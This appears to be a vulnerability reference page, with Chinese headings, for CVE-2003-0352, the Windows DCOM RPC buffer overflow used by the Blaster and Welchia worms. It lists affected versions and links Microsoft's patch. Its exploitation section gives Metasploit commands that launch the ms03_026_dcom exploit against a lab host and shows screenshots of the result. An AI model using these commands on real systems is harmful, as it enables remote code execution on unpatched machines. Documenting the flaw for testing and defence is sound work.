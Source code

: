 ###  CVE-2003-0352

#### 描述

Buffer overflow in a certain DCOM interface for RPC in Microsoft Windows NT 4.0, 2000, XP, and Server 2003 allows remote attackers to execute arbitrary code via a malformed message, as exploited by the Blaster/MSblast/LovSAN and Nachi/Welchia worms.

#### 影响版本

| Product             | Version           | Update | Edition           | Tested |
| ------------------- | ----------------- | ------ | ----------------- | ------ |
| Windows 2000        |                   |        |                   |        |
| Windows 2000        |                   | SP1    |                   |        |
| Windows 2000        |                   | SP2    |                   |        |
| Windows 2000        |                   | SP3    |                   |        |
| Windows 2000        |                   | SP4    |                   |        |
| Windows 2003 Server | R2                |        | 64-bit            |        |
| Windows 2003 Server | R2                |        | Datacenter 64-bit |        |
| Windows 2003 Server | WEB               |        |                   |        |
| Windows 2003 Server | Enterprise        |        | 64-bit            |        |
| Windows 2003 Server | Enterprise 64-bit |        |                   |        |
| Windows 2003 Server | Standard          |        | 64-bit            |        |
| Windows Nt          | 4.0               | SP1    | Server            |        |
| Windows Nt          | 4.0               | SP5    | Server            |        |
| Windows Nt          | 4.0               | SP4    | Enterprise Server |        |
| Windows Nt          | 4.0               |        | Enterprise Server |        |
| Windows Nt          | 4.0               | SP6    | Workstation       |        |
| Windows Nt          | 4.0               | SP2    | Workstation       |        |
| Windows Nt          | 4.0               | SP1    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP5    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP4    | Server            |        |
| Windows Nt          | 4.0               |        | Server            |        |
| Windows Nt          | 4.0               | Sp6a   | Enterprise Server |        |
| Windows Nt          | 4.0               | SP3    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP5    | Workstation       |        |
| Windows Nt          | 4.0               | SP1    | Workstation       |        |
| Windows Nt          | 4.0               | SP4    | Terminal Server   |        |
| Windows Nt          | 4.0               |        | Terminal Server   |        |
| Windows Nt          | 4.0               | Sp6a   | Server            |        |
| Windows Nt          | 4.0               | SP3    | Server            |        |
| Windows Nt          | 4.0               | SP6    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP2    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP4    | Workstation       |        |
| Windows Nt          | 4.0               |        | Workstation       |        |
| Windows Nt          | 4.0               | Sp6a   | Terminal Server   |        |
| Windows Nt          | 4.0               | SP3    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP6    | Server            |        |
| Windows Nt          | 4.0               | SP2    | Server            |        |
| Windows Nt          | 4.0               | SP1    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP5    | Enterprise Server |        |
| Windows Nt          | 4.0               | Sp6a   | Workstation       |        |
| Windows Nt          | 4.0               | SP3    | Workstation       |        |
| Windows Nt          | 4.0               | SP6    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP2    | Terminal Server   |        |
| Windows Xp          |                   |        | 64-bit            |        |
| Windows Xp          |                   |        | Home              |        |
| Windows Xp          |                   | Gold   | Professional      |        |
| Windows Xp          |                   | SP1    | 64-bit            |        |
| Windows Xp          |                   | SP1    | Home              |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2003-0352
```

#### 利用方式

测试系统windows 2000 sp4 x86

```
use exploit/windows/dcerpc/ms03_026_dcom
set RHOST 192.168.1.17
run
```

![image-20200823200752021](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2003-0352_win2000_x86_msf.png?raw=true)

查看系统信息

![CVE-2003-0352_win2000_x86_msf2](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2003-0352_win2000_x86_msf2.png?raw=true)

